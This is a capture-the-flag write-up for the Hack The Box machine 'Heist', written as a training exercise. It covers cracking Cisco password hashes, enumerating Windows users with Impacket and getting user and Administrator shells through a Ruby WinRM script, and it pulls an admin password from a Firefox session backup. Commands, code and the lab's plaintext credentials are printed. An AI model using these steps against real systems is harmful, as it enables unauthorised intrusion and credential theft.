





hackthebox Heist
Released: 10th August 2019 / Pwned: August 23rd 2019 - [+] Solved whilst Active

Heist starts with a web server and a set of encrypted passwords to crack. Using the cracked credentials, you enumerate usernames on the target system and get a user shell using a WinRM ruby script. On the system, a todo.txt file is the start of a trail leading to a Firefox profile and an admin/password credentials in a backup session file.
Summary
• Login as guest on the website and find a set of passwords from a user who is having config issues
• Crack the passwords in config.txt
• Use credentials and Impacket's lookupsid.py to enumerate for users on the target system
• Get a shell on the system using a WinRM ruby script
• Read a backup Firefox session file containing the Administrator password
1) Nmap
Full port scan:
nmap -p- -sV -oN nmap/full.txt 10.10.10.149
-sV service enumeration
-oN default output
Results:
root@gotham:~/ctf/heist# mkdir nmap
root@gotham:~/ctf/heist# nmap -p- -sV -oN nmap/full.txt 10.10.10.149
...
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
135/tcp open msrpc Microsoft Windows RPC
445/tcp open microsoft-ds?
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49668/tcp open msrpc Microsoft Windows RPC
...
Ports
• 80/http - A website. Will be the first place to look
• 135/rpc - Remote Procedure Call is running - useful to know for later
• 445/tcp - Can't authenticate using a NULL session, so nothing to be gained here. Later on with creds, the share still doesn't give anything
• 5985/httpAPI - Comes in handy later to execute commands remotely and gain a shell
• 49668/rpc - More RPC
2) 80/http - Support Login Page
http://10.10.10.149 redirects to http://10.10.10.149/login.php, which appears to be a login page for customer support.

No credentials have been found yet, so Login as guest.
(bottom right)

A user called Hazard is having some issues with his cisco router.

If you look at the config.txt they attached, you'll find some cisco credentials.

3) Crack config.txt Passwords
All 3 passwords in config.txt can be cracked.
3a) secret
$1$pdQG$o8nrSzsGXeaduXrjlvKc91 can be cracked using john.
echo the hash into a file and run john with rockyou.txt as the wordlist.
root@gotham:~/ctf/heist# echo "$1$pdQG$o8nrSzsGXeaduXrjlvKc91" > cisco.hash
root@gotham:~/ctf/heist# john --wordlist=/usr/share/wordlists/rockyou.txt cisco.hash
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ [MD5 32/32])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:10 0.82% (ETA: 02:44:06) 0g/s 13989p/s 13989c/s 13989C/s h0rses..frogs07
0g 0:00:00:17 1.46% (ETA: 02:43:12) 0g/s 14484p/s 14484c/s 14484C/s copper6..cinnomon
0g 0:00:02:19 12.06% (ETA: 02:43:03) 0g/s 13673p/s 13673c/s 13673C/s coco0406..coca1998
0g 0:00:03:37 20.12% (ETA: 02:41:49) 0g/s 14156p/s 14156c/s 14156C/s trampil..tramazi
stealth1agent (?)
1g 0:00:04:05 DONE
• $1$pdQG$o8nrSzsGXeaduXrjlvKc91 = stealth1agent
3b) user passwords
The cisco user passwords are trivial to crack, just input the hashes here - http://www.ifm.net.nz/cookbooks/passwordcracker.html
• username rout3r password 7 $uperP@ssword
• username admin privilege 15 password 7 Q4)sJu\Y8qz*A3?d
3c) hazard / stealth1agent
Those usernames/passwords don't work with any of the services running.
On the Issues page, Hazard asked for an account on the target system, which gives you a potential username to try with the stealth1agent pass.
hazard / stealth1agent can be used to log in to SMB, but the connection will time out after you connect.
Instead, hazard's credentials can be used with RPC.
To test if the credentials work, I ran Impacket's rpcdump.py which gathers information about endpoints on the target system.
root@gotham:~/ctf/heist# rpcdump.py hazard:stealth1agent@10.10.10.149
Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation
[*] Retrieving endpoint list from 10.10.10.149
...
But that outputs a lot of junk.
With working credentials, you can now use Impacket's lookupsid.py to enumerate for usernames on the target system.
root@gotham:~/ctf/heist# lookupsid.py hazard:stealth1agent@10.10.10.149
Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation
[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
...
Now you have a list of usernames you can try with the cracked passwords above.
On Windows systems, with user credentials, you can often spawn a shell.
Gain Access
4) Chase Shell
The go-to, now deprecated, way to get a shell on Windows systems with user credentials is winexe.
Instead, you can use WinRM.
4a) WinRM
WinRM stands for Windows Remote Management, and is recommended by Microsoft as the best way to manage systems remotely.
WinRM receives commands via PowerShell remoting, which must be enabled in powershell by running Enable-PSRemoting - https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enable-psremoting
PowerShell remoting is enabled on Windows Server 2012 by default.
Communicating with WinRM from Linux isn't very well developed.
https://alamot.github.io/winrm_shell/
Alamot mentions that “PowerShell on Linux isn't mature� and that most python modules don't communicate correctly with WinRM.
The only reliable library to communcate from Linux to Windows via WinRM is Ruby's winrm library.
Alamot has written a shell-spawning script using this WinRM library - all credit for the following code goes to him!!
Original code is here - https://github.com/Alamot/code-snippets/blob/master/winrm/winrm_shell.rb
SSL transport isn't needed, so the above script has been modified to remove it.
Authenticate using Chase and Q4)sJu\Y8qz*A3?d to get a shell on the system.
(i couldn't find any hint that Chase was the correct user for the admin password, I just tried every username/password combination (manually) until I got a hit)
require 'winrm'
# Author: Alamot
conn = WinRM::Connection.new(
endpoint: 'http://10.10.10.149:5985/wsman',
user: 'Chase',
password: 'Q4)sJu\Y8qz*A3?d',
)
command=""
conn.shell(:powershell) do |shell|
until command == "exit\n" do
output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
print(output.output.chomp)
command = gets
output = shell.run(command) do |stdout, stderr|
STDOUT.print stdout
STDERR.print stderr
end
end
puts "Exiting with code #{output.exitcode}"
end
Run the script with ruby <script>.rb and grab user.txt!
root@gotham:~/ctf/heist# ruby winrm_alamot.rb
PS supportdesk\chase@SUPPORTDESK Documents> cd ../Desktop
PS supportdesk\chase@SUPPORTDESK Desktop> dir
Directory: C:\Users\Chase\Desktop
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 4/22/2019 8:28 AM 229376 cert9.db
-a---- 4/22/2019 8:29 AM 294912 key4.db
-a---- 4/22/2019 9:08 AM 121 todo.txt
-a---- 4/22/2019 9:07 AM 32 user.txt
PS supportdesk\chase@SUPPORTDESK Desktop> cat user.txt
a127daef7...
Priv-Esc
5) login.php
On Chase's desktop is a todo.txt file.
PS supportdesk\chase@SUPPORTDESK Desktop> cat todo.txt
Stuff to-do:
1. Keep checking the issues list
2. Fix the router config.
Done:
1. Restricted access for guest user.
“Keep checking the issues list� refers to the issues posted on the support site, which prompted me to look at the site's files.
The root directory for the website running on port 80 is in C:\inetpub
PS supportdesk\chase@SUPPORTDESK C:\> cd C:\inetpub
PS supportdesk\chase@SUPPORTDESK inetpub> dir
Directory: C:\inetpub
Mode LastWriteTime Length Name
---- ------------- ------ ----
d----- 4/21/2019 5:33 PM custerr
d----- 4/22/2019 6:54 AM history
d----- 4/22/2019 6:50 AM logs
d----- 4/21/2019 5:33 PM temp
d----- 4/21/2019 5:42 PM wwwroot
cd to wwwroot and read login.php.
At the bottom of the page are some lines of php code which create user sessions.
PS supportdesk\chase@SUPPORTDESK wwwroot> cat login.php
...
<?php
session_start();
if( isset($_REQUEST['login']) && !empty($_REQUEST['login_username']) && !empty($_REQUEST['login_password'])) {
if( $_REQUEST['login_username'] === 'admin@support.htb' && hash( 'sha256', $_REQUEST['login_password']) === '91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040') {
$_SESSION['admin'] = "valid";
header('Location: issues.php');
}
else
header('Location: errorpage.php');
}
else if( isset($_GET['guest']) ) {
if( $_GET['guest'] === 'true' ) {
$_SESSION['guest'] = "valid";
header('Location: issues.php');
}
}
?>
Unfortunately, admin@support.htb's password is in hashed sha256 format.
• admin@support.htb
• 91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040
However, this breadcrumb serves as a hint.
In the todo.txt file, Chase writes “1. Keep checking the issues list.�, which implies that he's the owner of this admin@support.htb account because he's responsible for replying to any issues posted on the site.
Perhaps, then, it's possible to find the unencrypted form of this sha256 hash in Chase's browser/session cookies, considering he will have logged in to the website to reply to issues.
6) recovery.jsonlz4
Inside C:\Program Files there's a Mozilla Firefox directory, which means that the browser you're targetting is Firefox.
PS supportdesk\chase@SUPPORTDESK Mozilla Firefox> cd "C:\Program Files"
PS supportdesk\chase@SUPPORTDESK Program Files> dir
Directory: C:\Program Files
Mode LastWriteTime Length Name
---- ------------- ------ ----
d----- 4/21/2019 9:39 AM Common Files
d----- 4/21/2019 11:00 AM internet explorer
d----- 4/22/2019 6:56 AM Mozilla Firefox
...
On Windows, Firefox stores user data in profiles in 1 or both (often both) of these locations
• C:\Users\Chase\AppData\Roaming\Mozilla\Firefox\Profiles\<profile>.default
• C:\Users\Chase\AppData\Local\Mozilla\Firefox\Profiles\<profile>.default
A google search for “firefox extract cookies� reveals that firefox stores a recovery file (that's used to restore a browsing session if firefox closes/crashes) containing cookies/tabs etc. called recovery.jsonlz4.
https://stackoverflow.com/questions/19486161/is-there-a-way-to-extract-cookies-from-the-firefox-cookies-file
The above link ^^^ says that recovery.jsonlz4 is in a folder called sessionstore-backups.
Browse to C:\Users\Chase\AppData\Roaming\Mozilla\Firefox\Profiles\ and you'll find a 77nc64t5.default profile with a sessionstore-backups folder and the recovery.jsonlz4 file.
PS supportdesk\chase@SUPPORTDESK Chase> cd C:\Users\Chase\AppData\Roaming\Mozilla\Firefox\Profiles\
PS supportdesk\chase@SUPPORTDESK Profiles> dir
Directory: C:\Users\Chase\AppData\Roaming\Mozilla\Firefox\Profiles
Mode LastWriteTime Length Name
---- ------------- ------ ----
d----- 8/23/2019 4:08 PM 77nc64t5.default
PS supportdesk\chase@SUPPORTDESK Profiles> cd 77nc64t5.default
PS supportdesk\chase@SUPPORTDESK 77nc64t5.default> dir
Directory: C:\Users\Chase\AppData\Roaming\Mozilla\Firefox\Profiles\77nc64t5.default
Mode LastWriteTime Length Name
---- ------------- ------ ----
d----- 8/23/2019 3:03 AM bookmarkbackups
d----- 8/23/2019 3:00 AM crashes
d----- 8/23/2019 4:12 PM datareporting
d----- 4/22/2019 8:01 AM extensions
d----- 4/22/2019 8:15 AM features
d----- 4/22/2019 8:31 AM gmp
d----- 4/22/2019 8:07 AM gmp-gmpopenh264
d----- 4/22/2019 8:07 AM gmp-widevinecdm
d----- 4/22/2019 8:01 AM minidumps
d----- 8/23/2019 4:07 PM saved-telemetry-pings
d----- 4/22/2019 8:28 AM sessionstore-backups
...
PS supportdesk\chase@SUPPORTDESK 77nc64t5.default> cd sessionstore-backups
PS supportdesk\chase@SUPPORTDESK sessionstore-backups> dir
Directory: C:\Users\Chase\AppData\Roaming\Mozilla\Firefox\Profiles\77nc64t5.default\sessionstore-backups
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 4/22/2019 8:27 AM 1219 previous.jsonlz4
-a---- 4/22/2019 8:28 AM 1554 recovery.baklz4
-a---- 4/22/2019 8:28 AM 1768 recovery.jsonlz4
-a---- 4/22/2019 8:02 AM 3534 upgrade.jsonlz4-20190409155332
cat the recovery.jsonlz4 file.
PS supportdesk\chase@SUPPORTDESK sessionstore-backups> cat recovery.jsonlz4
mozLz40
....
_ìœò=admin@support.htb&!ò
password=4dD!5}x/re8]FBuZ n
...
You've found what looks to be a pretty convincing admin password (and a hard to crack sha265 hash, at that)
7) Administrator Shell
Modify Alamot's WinRM script to include the credentials you've just found.
root@gotham:~/ctf/heist# nano winrm_alamot_admin.rb
...
require 'winrm'
# Author: Alamot
conn = WinRM::Connection.new(
endpoint: 'http://10.10.10.149:5985/wsman',
user: 'Administrator',
password: '4dD!5}x/re8]FBuZ',
)
command=""
conn.shell(:powershell) do |shell|
until command == "exit\n" do
output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
print(output.output.chomp)
command = gets
output = shell.run(command) do |stdout, stderr|
STDOUT.print stdout
STDERR.print stderr
end
end
puts "Exiting with code #{output.exitcode}"
end
Run Alamot's script against the target, and you'll be rewarded with an Administrator shell!
Go grab root.txt.
root@gotham:~/ctf/heist# ruby winrm_alamot_admin.rb
PS supportdesk\administrator@SUPPORTDESK Documents> cd ../Desktop
PS supportdesk\administrator@SUPPORTDESK Desktop> dir -force
Directory: C:\Users\Administrator\Desktop
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a-hs- 4/21/2019 11:08 AM 282 desktop.ini
-a---- 4/22/2019 9:05 AM 32 root.txt
PS supportdesk\administrator@SUPPORTDESK Desktop> cat root.txt
50dfa3c...